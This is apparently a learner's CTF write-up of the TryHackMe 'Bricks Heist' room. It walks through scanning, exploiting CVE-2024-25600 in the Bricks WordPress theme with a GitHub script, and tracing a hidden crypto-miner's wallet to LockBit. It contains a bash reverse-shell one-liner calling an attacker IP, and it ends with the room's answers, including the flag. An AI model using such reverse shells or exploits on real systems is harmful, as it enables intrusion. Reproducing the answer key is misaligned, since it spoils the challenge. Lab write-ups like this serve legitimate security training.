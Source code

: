 ## Bricks Heist
---

**Given Basic Info:**
Brick.By.Brick.v.2.1
Machine ID: **10.10.3.78 bricks.thm**
*Added to /etc/hosts*

---
### Process

I started with nmap just so I can see which services and/or ports are available

nmap -nP -sV -sC 10.10.3.78

I wont paste the whole result because of -sC but:

Nmap scan report for 10.10.3.78
Host is up (0.16s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Python http.server 3.5 - 3.10
443/tcp  open  ssl/http Apache httpd
3306/tcp open  mysql    MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

443 it's open so 10.10.3.78:443 or https://bricks.thm
The logo at the top of the web indicates wordpress.

Since it's wordpress, I'll try **wpscan** with --url attribute prompt

Didnt work.

the output saying "Scan Aborted: The url supplied 'https://bricks.thm/' seems to be down (SSL peer certificate or SSH remote key was not OK)" led me trying **--disable-tls-checks**

It's confirmed it WordPress 6.5. Detected entries:

/wp-admin/ 
/wp-admin/admin-ajax.php

So I looked into them aaand there's the wp login page.

Found out that *The most common reasons WordPress websites get hacked are vulnerabilities in plugins and themes and compromised WordPress admin accounts.*

So I looked at that info with Wappalyzer, it says the theme is bricks, the wpscan with --disable-tls-checks shows the bricks version as 1.9.5

I found an exploit of that theme in github **https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/tree/main** so i cloned it and exec.

Just to end up receiving me the new the PEP 668 error about forcing the usage of virtual environments in order to prevent conflicts and inconsistencies between packages managed by the OS and those managed by pip.

So yes, I needed to do that whole thing. (venv)

Installed the required dependencies one by one (in total 5 or 6)

executed the exploit CVE-2024-25600.py

gained access and looking at the files theres the .txt file which the flag **(Question 1 done)**

When trying to do a systemctl it closed and had to execute the CVE over again.

Decided  to do a reverse shell to scale privileges, tbh I didnt know how to do it. I found out that in the local machine I had to enable a listener port so **netcat -l -p 1234**

in the target machine I found the command which is "bash -c 'exec bash -i &>/dev/tcp/10.8.125.95/1234 <&1" (/dev/tcp/LOCAL_IP/PORT)

Doing that I could get the command shell

Systemctl | grep running

There was a service called ubuntu.service **(Question 3 done)** with "TRYHACK3M" description

systemctl cat ubuntu.service 

it's initialized by ExecStart=/lib/NetworkManager/**nm-inet-dialog** **(Question 2 done)**

Searching that place there's two files matching names: nm-inet-dialog and inet.conf

both of them were too long so I used command **head** 

nm-inet-dialog is not readable
inet.conf it's somewhat a miner log with the ID: **(Question 4 done)** 757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d

To be honest I didnt know what was that, after searching about a possible explanation, I had to decode. There's a cool tool I found called cyberchef "https://gchq.github.io/CyberChef/" and there's the option of trying to decode in several ways a code with "magic" option.

This is the output

bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa

seems it's repeated but the one I need is the first one 

bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa **(Question 5 done)**

I searched for that adress at https://www.blockchain.com/explorer

a wallet bc1qy-l67qa has been found. After searching each transaction number in google, there's one with importance because of a Office of Foreign Assets Control sanction: **bc1q5jqgm7nvrhaw2rh2vk0dk8e4gg5g373g0vz07r** owned by *"KONDRATIEV, Ivan Gennadievich"*. Searching that name in google there's a referenced group called "LockBit" **(Question 6 Done)**

And that's it. It was fun.

Next one.

#### Questions

1. What is the content of the hidden .txt file in the web folder?
THM{fl46_650c844110baced87e1606453b93f22a}

2. What is the name of the suspicious process?
nm-inet-dialog

3. What is the service name affiliated with the suspicious process?
ubuntu.service

4. What is the log file name of the miner instance?
inet.conf

5. What is the wallet address of the miner instance?
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa

6. The wallet address used has been involved in transactions between wallets belonging to which threat group?
LockBit
